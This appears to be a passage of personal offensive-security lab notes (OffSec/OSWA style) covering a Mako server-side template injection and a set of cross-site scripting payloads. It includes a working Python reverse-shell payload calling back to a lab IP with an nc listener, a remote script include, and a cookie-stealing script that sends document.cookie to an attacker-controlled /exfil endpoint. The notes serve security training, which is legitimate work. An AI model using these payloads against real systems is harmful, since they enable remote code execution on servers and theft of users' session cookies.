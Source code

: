 -  putting code in between `<%` and `%>` which is the required format for `mako`
```python
<%
import os,pty,socket;s=socket.socket();s.connect(("192.168.45.231",1337));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")
%>
${x}
```
submitting payload and ensuring to hit `update`
![[Pasted image 20241208025306.png]]
once the payload is in place - make sure to setup `nc` listener and brose to the `news` page that this would be displayed on - it doesnt load because its kicking off the `revshell`
![[Pasted image 20241208025413.png]]
flag
![[Pasted image 20241208025446.png]]


##### Cross Site Scripting (XSS) - All Payloads

###### Starting payloads
```html
<h1>offsec</h1> - used for initial HTML injection
```

```js
<script>alert(0)</script> - used to display alerts
<img src='x' onerror='alert(1)'> - used to bypass innerHTML (found in network packets) and allow scripts
```
###### Payload 1 - `ALERT` testing
```bash
┌──(root💀gobots)-[31Jul2024 20:23:23]-[/home/kali/SUT]
└─# mkdir xss

┌──(root💀gobots)-[31Jul2024 20:23:25]-[/home/kali/SUT]
└─# cd xss
echo "alert(1)" > xss.js

python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```
Now that the server is started, let's use the payload to exploit the search application with the script below:
```js
<script src="http://192.168.45.222:8000/xss.js"></script>
```
-------
###### Payload 2 - `STEALING COOKIES`
```bash
┌──(root💀gobots)-[31Jul2024 20:53:19]-[/home/kali/SUT/OSWA/xss]
└─# vim xss2.js     

┌──(root💀gobots)-[31Jul2024 20:53:43]-[/home/kali/SUT/OSWA/xss]
└─# cat xss2.js                  
let cookie = document.cookie

let encodedCookie = encodeURIComponent(cookie)

fetch("http://192.168.45.223/exfil?data=" + encodedCookie)


# set up python server
kali@kali:~/xss$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
